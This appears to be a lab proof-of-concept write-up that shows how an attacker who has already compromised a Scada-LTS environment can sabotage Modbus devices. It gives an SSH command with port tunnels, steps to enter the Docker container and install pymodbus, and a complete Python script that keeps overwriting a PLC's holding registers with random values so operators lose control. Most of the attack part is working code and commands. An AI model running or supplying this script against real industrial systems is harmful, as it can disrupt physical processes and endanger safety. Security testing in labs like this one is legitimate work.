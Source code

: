 # Change Modbus Registers Proof of Concept Vulnerability

After the ScadaLTS enviroment has been exploited and access has been granted over the system to the malicious entity, then the following steps can be taken to perform a modbus change exploit.

Step 1: Connect to the server.
```
ssh mcsestudent@<ip_redacted> -p 22 -L 8081:localhost:8081 -L 5601:localhost:5601 -L 80:localhost:80 -L 8082:localhost:8082 -L 8083:localhost:8083 -L 8084:localhost:8084 -L 8085:localhost:8085 -L 8086:localhost:8086 -L 9200:localhost:9200 -L 9600:localhost:9600 -L 2021:localhost:2021
```
Step 2: Enter the Scada-LTS container.
```sh
sudo docker exec -it scadalts /bin/bash
```

Step 3: Install pip and [pymodbus](https://pypi.org/project/pymodbus/)
```sh
apt update && apt install python3-pip -y
pip install pymodbus
```

step 4: Run the code. There is no `nano` or `vim` but we can still write to a file with `echo 'some code' > test.py`
```py
import random
from pymodbus.client import ModbusTcpClient

PLC_IP = "plc-zone1" # Replace with your PLC or Modbus server IP
REGISTER_START = 1000  # First holding register
NUM_REGISTERS = 16  # 32 bytes = 16 registers (each register = 2 bytes)

client = ModbusTcpClient(PLC_IP)

try:
    while True:
        # Generate 16 random values (each between 0 and 65535)
        values = [random.randint(0, 65535) for _ in range(NUM_REGISTERS)]

        # Write multiple registers at once
        response = client.write_registers(REGISTER_START, values)
        
        print(f"Overschreven registers {REGISTER_START} - {REGISTER_START + NUM_REGISTERS - 1} met waarden {values}")

except KeyboardInterrupt:
    print("Test gestopt.")
finally:
    client.close()
```
```sh
python3 test.py
```

## End result

The registers should now start being overwritten with random data. This in turn makes it so that the modbus addresses cannot be used properly since they will keep changing from value even if the operator for example wants to change them by turning on a button. 

Figure 1: Modbus registers being continuously overwritten.

![](img/random_modbus.png)

Figure 2: ScadaLTS environment visibily showing values that are not in line with its use case.

![](img/scada_poc1.jpg)

Figure 3: In ScadaLTS the values now also seem to be changing in the data resources tab.

![](img/scada_poc2.jpg)
